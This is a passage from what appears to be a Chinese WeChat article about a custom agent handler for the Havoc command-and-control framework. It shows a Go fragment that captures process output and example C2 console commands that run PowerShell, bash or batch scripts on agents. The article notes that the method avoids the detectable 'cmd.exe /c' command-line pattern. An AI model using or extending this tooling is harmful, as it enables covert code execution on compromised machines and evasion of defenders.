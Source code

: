                                                               outputBuf.WriteString(line)                
      
                                                              if err == io.EOF {                                                                     return                                                          }                                               }                                    }                         }()                
      
                             // 等待进程退出                         err = cmd.Wait()                         if err != nil {                                    return err.Error()                         }                         // 将缓冲区的内容转换为字符串                         output := outputBuf.String()                         return output              }

通过这个功能，可以在C2中执行：

  *   *   * 

    
    
    C2 > shell_script powershell.exe /local/path/to/file.ps1              C2 > shell_script /bin/bash /local/path/to/file.sh              C2 > shell_script cmd.exe /local/path/to/file.bat

如此一来，进程命令行就不会产生cmd.exe /c XXX 这样有特征的内容。

![]()

![]()

  

全部源代码：https://github.com/Rvn0xsy/Havoc-Agent-Handler

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

